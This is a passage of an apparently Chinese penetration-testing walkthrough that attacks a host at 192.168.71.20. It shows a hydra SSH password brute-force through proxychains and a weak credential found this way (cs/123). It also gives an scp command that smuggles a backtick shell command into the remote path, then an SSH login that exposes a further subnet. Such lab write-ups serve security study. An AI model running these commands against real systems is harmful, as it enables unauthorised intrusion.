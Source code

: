 ```plain
proxychains hydra -L /usertest.txt -P /passtest.txt ssh://192.168.71.20
```

\-L /usertest.txt #用户  
\-P /passtest.txt #密码  
ssh://192.168.71.20 #协议

[![](assets/1708094050-d7fa9734bc048a2d51d7a6ca3694bde3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145752-f0fe60b4-1000-1.png)  
此处存在弱口令 cs/123  
利用 scp 命令，对 centos 进行写文件，复制文件。

```plain
scp / test.txt cs@192.168.71.20:'`touch /tmp/test.sh`/tmp'
```

[![](assets/1708094050-6f1702fba907ecc458fd6819f6cad74b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145807-fa458ea4-1000-1.png)  
ssh 连接 192.168.71.20

```plain
proxychains ssh cs@192.168.71.20
```

[![](assets/1708094050-87f32f6fabfecb0c2f2e038acbfd3134.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145820-017d4144-1001-1.png)  
连接成功，发现 192.168.93.10 网段。
